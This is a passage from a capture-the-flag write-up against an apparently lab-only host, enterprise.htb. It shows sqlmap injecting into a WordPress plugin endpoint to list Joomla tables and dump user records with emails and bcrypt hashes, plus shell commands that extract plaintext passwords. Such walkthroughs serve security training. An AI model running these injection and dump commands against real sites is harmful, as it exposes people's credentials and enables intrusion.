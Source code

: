 

With some `cut` and `sed`, I can get the list of unique passwords:



    oxdf@parrot$ grep 'Passwords' ~/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv | cut -d',' -f14 | sed 's/\\r\\n\\r\\n/\n/g' | sort -u | grep -v quickly
     
    enterprisencc170
    u*Z14ru0p#ttj83zS6
    ZD3YxfnSjezg67JZ
    ZxJyhGem4k338S2Y



The first line is a space, though I'd be surprised if that is a valid
password.

The `joomla` DB doesn't have any tables, but the `joomladb` table has a
ton:



    oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D joomladb --tables
    ...[snip]...
    [72 tables]                      
    +-------------------------------+
    | edz2g_assets                  |
    | edz2g_associations            |
    | edz2g_banner_clients          |
    | edz2g_banner_tracks           |
    ...[snip]...



The `edz2g_users` table returns two more users:



    oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D joomladb -T edz2g_users --dump
    ...[snip]...
    Database: joomladb
    Table: edz2g_users
    [2 entries]
    +-----+------------+---------+-------+--------------------------------+---------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
    | id  | name       | otep    | block | email                          | otpKey  | params                                                                                       | password                                                     | username        | sendEmail | activation | resetCount | registerDate        | requireReset | lastResetTime       | lastvisitDate       |
    +-----+------------+---------+-------+--------------------------------+---------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
    | 400 | Super User | <blank> | 0     | geordi.la.forge@enterprise.htb | <blank> | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy | geordi.la.forge | 1         | 0          | 0          | 2017-09-03 19:30:04 | 0            | 0000-00-00 00:00:00 | 2017-10-17 04:24:50 |
    | 401 | Guinan     | <blank> | 0     | guinan@enterprise.htb          | <blank> | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q | Guinan          | 0         | <blank>    | 0          | 2017-09-06 12:38:03 | 0            | 0000-00-00 00:00:00 | 0000-00-00 00:00:00 |
    +-----+------------+---------+-------+--------------------------------+---------+----------------------------------------------------------------------------------------------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
    ...[snip]...
